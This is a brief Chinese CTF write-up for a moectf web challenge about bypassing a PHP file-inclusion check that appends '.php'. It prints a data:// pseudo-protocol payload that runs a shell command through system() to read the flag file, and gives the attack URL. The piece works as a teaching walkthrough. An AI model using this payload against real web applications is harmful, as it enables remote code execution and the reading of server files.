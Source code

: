 # Web-16｜第十六章 昆仑星途

## 碎碎念

文件包含绕过+data 伪协议
***
## Writeup

查看 php 源码发现，它会自动给传的 file 添加一个 .php 后缀，即不管输入的是什么文件都当 php 文件处理，我们可以用 data 流伪造一个文件：`data://text/plain,<?php system('cat /flag-*.txt');?>`，其中逗号前面的部分为协议声明部分，后面的都被当作了数据，可以看到这是一个 php 命令，因此我们访问 `http://target/?file=data://text/plain,<?php system('cat /flag-*.txt');?>` 即可得到 flag 内容：

![](../../../../assets/Pasted%20image%2020251029164550.png)

最终 flag：`moectf{1cdf1b1b-d4c3-55d6-cd86-0c25d7481baa}`